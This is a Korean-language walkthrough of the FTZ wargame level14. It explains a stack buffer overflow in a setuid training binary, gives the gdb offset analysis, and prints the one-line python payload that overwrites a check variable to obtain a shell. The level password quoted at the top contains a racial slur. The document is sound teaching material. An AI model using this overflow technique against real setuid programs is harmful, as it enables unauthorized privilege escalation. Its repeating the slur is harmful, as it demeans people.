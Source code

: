 # FTZ Level14

#### ID : level14 PW: what that nigga want?
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level14의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>
#include <unistd.h>

main()
{
      int crap;
      int check;
      char buf[20];
      fgets(buf, 45, stdin);      #buf 변수에 45바이트만큼 입력받음
      if (check==0xdeadbeef)
      {
          setreuid(3095, 3095);
          system("/bin/sh");      #/bin/sh 쉘 실행
      }
}
```
```fgets``` 함수에서 BOF가 일어날 수 있다!!<br>
그런데 fgets는 45byte만큼만 받고 있으며 check가 0xdeadbeef일 때 쉘을 얻을 수 있다.<br>
45byte만 가지고 ret에 도달할 수 있을까?<br>

우리의 목적을 생각해보자.<br>
1. buf[20]에서 check까지, check에서 ret까지 거리 구하기
2. check에 0xdeadbeef 넣기
3. 페이로드 작성하고 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x38만큼의 공간을 만들고 있다. 0x38은 10진수로 56이다.<br>
crap 변수 4bytes, check 변수 4byte, buf 20byte 총 28byte가 필요한데 56byte를 할당했다는 것은 <br>
dummy로 28byte가 있다고 생각할 수 있다.<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+29>를 보면 0xdeadbeef랑 0xfffffff0를 비교하고 있다.<br>
저 **0xfffffff0**이 바로 check의 주소인 것이다. 이는 ebp로부터 -16에 위치하고 있다.<br>
buf는 ebp로부터 -56에 위치하고있고 check는 -16에 위치하고 있으니<br>
buf에서 check까지의 거리는 **40**이다.<br>

현재 상태를 나타내보면 다음과 같다.<br>
**buf(20)+dummy(20)+check(4)+crap(4)+dummy(8)+sfp(4)+ret(4)**<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~check까지 거리)+0xdeadbeef**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level15 Password is "~~". 라고 나올 것이다!!
